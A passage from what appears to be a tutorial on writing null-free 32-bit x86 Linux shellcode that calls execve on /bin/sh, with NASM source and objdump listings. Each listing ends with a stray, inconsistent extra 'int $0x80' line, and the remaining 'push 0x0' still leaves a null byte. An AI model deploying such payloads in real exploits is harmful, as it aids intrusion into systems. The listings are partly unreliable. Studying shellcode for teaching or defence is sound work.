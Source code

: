Assembling, linking, and running our program and we still get our shell. Let's
inspect our new program:

```
$ objdump -dM intel shell32

./shell32_usable_non_null:     file format elf32-i386


Disassembly of section .text:

08049000 <_start>:
 8049000:	6a 00                	push   0x0
 8049002:	68 2f 2f 73 68       	push   0x68732f2f
 8049007:	68 2f 62 69 6e       	push   0x6e69622f
 804900c:	b8 0b 00 00 00       	mov    eax,0xb
 8049011:	89 e3                	mov    ebx,esp
 8049013:	31 c9                	xor    ecx,ecx
 8049015:	31 d2                	xor    edx,edx
 8049017:	cd 80                	int    0x80
8049020:	cd 80                	int    $0x80
 ```

Our next target is the null-bytes in the `mov` command. Since we're calling
`mov` a on 32-bit register there is extra zero padding, we can avoid this by
zeroing the register ourselves then writing only to the lower bytes we need:

```
global _start
_start:

    ; push our string onto the stack
    push 0x0        ; null byte, terminate our string
    push 0x68732f2f ; "//sh"
    push 0x6e69622f ; "/bin"

    ; build syscall:
    ; you can find tables for syscall codes online
    xor eax, eax    ;           <----- zeroing entire register
    mov al, 0xb     ; execve(   <----- move into lowest byte
    mov ebx, esp    ; "/bin/sh",
    xor ecx, ecx    ; NULL,
    xor edx, edx    ; NULL)
    int 0x80        ; make the syscall
```

Once again, test it works and let's inspect:

```
$ objdump -dM intel shell32

./shell32_usable_non_null:     file format elf32-i386


Disassembly of section .text:

08049000 <_start>:
 8049000:	6a 00                	push   0x0
 8049002:	68 2f 2f 73 68       	push   0x68732f2f
 8049007:	68 2f 62 69 6e       	push   0x6e69622f
 804900c:	31 c0                	xor    eax,eax
 804900e:	b0 0b                	mov    al,0xb
 8049010:	89 e3                	mov    ebx,esp
 8049012:	31 c9                	xor    ecx,ecx
 8049014:	31 d2                	xor    edx,edx
 8049016:	cd 80                	int    0x80
804901e:	cd 80                	int    $0x80
```